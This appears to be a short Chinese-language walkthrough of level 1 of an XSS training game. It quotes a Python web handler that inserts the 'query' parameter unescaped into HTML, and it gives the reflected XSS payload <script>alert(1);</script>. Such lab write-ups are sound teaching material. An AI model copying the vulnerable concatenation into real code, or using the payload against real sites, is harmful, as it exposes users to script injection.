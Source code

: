 ```python
 
    if not self.request.get('query'):
      # Show main search page
      self.render_string(page_header + main_page_markup + page_footer)
    else:
      query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
      self.render_string(page_header + message + page_footer)
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

关键部分

```python
query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
```

`Sorry, no results were found for <b> + query + </b>.`

GET请求query会直接填入网页html

![level1-1](xss/image-20210424143837616.png)

直接打即可，payload:

```html
<script>alert(1);</script>
```

![level1-2](xss/image-20210424143953579.png)

